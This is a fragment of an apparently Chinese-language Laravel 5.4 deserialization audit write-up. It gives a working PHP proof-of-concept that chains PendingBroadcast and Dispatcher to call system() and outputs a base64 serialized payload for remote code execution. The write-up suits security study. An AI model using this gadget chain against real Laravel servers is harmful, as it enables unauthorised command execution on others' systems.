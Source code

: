 > 控制了 `$listener` 的取值之后，将传入的 `$event` 的值作为命令执行函数的参数值即可来进行 RCE 操作

### exp
```php
<?php
namespace Illuminate\Events {
    class Dispatcher {
        protected $listeners = [];
        public function __construct() {
            $this->listeners = ["calc" => ["system"]];
        }
    }
}



namespace Illuminate\Broadcasting {
    use  Illuminate\Events\Dispatcher;
    class PendingBroadcast {
        protected $events;
        protected $event;
        public function __construct() {
            $this->events = new Dispatcher();
            $this->event = "calc";
        }
    }
    echo base64_encode(serialize(new PendingBroadcast()));
}
?>
```

<img src="./Laravel5.4 反序列化代码审计/poc-4-3.png" alt="">
